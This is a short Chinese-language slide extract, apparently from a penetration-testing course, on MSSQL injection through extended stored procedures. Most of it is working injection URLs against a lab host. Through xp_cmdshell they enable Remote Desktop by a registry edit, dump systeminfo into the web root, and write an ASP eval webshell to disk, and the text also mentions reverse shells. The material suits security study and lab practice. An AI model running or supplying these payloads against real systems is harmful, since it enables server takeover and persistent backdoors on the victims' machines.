

MSSql注入拓展
MSSql的特殊功能——扩展存储过程
扩展存储过程
扩展存储过程以xp开头，主要使用外部程序语言编写的存储过程。
如：xp_cmdshell直接利用其执行命令， xp_subdirs 读取文件夹内的文件夹列表等
xp_cmdshell扩展利用

http://192.168.172.140/less-1.asp?id=1';exec xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'--
#利用xp_cmdshell 开启3389
http://192.168.172.140/less-1.asp?id=1';exec xp_cmdshell 'systeminfo > c:\inetpub\wwwroot\systeminfo.txt'--
#执行命令写入web根目录或反弹shell
http://192.168.172.140/less-1.asp?id=1';exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\inetpub\wwwroot\shell.asp'
#执行命令写入webshell windows操作系统中^是转义符号，此处利用^转义原本<符号